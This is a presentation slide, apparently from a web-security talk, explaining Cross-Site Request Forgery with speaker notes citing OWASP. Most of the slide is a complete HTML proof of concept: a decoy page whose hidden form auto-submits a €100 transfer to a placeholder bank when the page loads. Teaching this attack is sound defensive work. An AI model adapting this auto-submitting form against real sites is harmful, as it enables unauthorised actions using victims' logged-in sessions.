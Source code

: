 ```yaml
---
# class: pl-15% pr-15% pt-10%
layout: center
title: Cross-Site Request Forgery
---
```

<h1>Cross-Site Request Forgery</h1>

<Transform scale="1">

```html {all|13-17,21}
<!DOCTYPE html>
<html lang="en-US">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Mario Rossi's totally legit website</title>
</head>

<body>
  <h1>Welcome to Mario Rossi's totally legit website</h1>
  <p>Lorem Ipsum...</p>

  <form action="https://vulnerable-bank.com/transfer.html" id="send-money-to-mario-rossi" method="POST">
    <input type="hidden" name="to" value="Mario Rossi">
    <input type="hidden" name="iban" value="IT81F0300203280886251833317">
    <input type="hidden" name="amount" value="€100">
  </form>

  <script>
  document.addEventListener('DOMContentLoaded', (event) => {
    document.getElementById('send-money-to-mario-rossi').submit()
  })
  </script>
</body>
</html>
```

</Transform>

<!--
From [Cross-Site Request Forgery is dead!](https://scotthelme.co.uk/csrf-is-dead/):

> The real problem here is not that the decoy website sends the request, but that the victim's browser will send the victim's session cookies with it.
The request will be sent with the full authority the victim currently hold at this time, which means if the victim is logged in to his/her bank, he/she will send 100 EUR to Mario Rossi.

That IBAN number is fake, obviously. It was generated with [this tool](http://randomiban.com/?country=Italy).

Some applications might not be vulnerable to CSRF attacks. For example, see [this discussion in Plotly Dash](https://github.com/plotly/dash/issues/141).

- [Cross Site Request Forgery (OWASP)](https://owasp.org/www-community/attacks/csrf)
- [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
-->
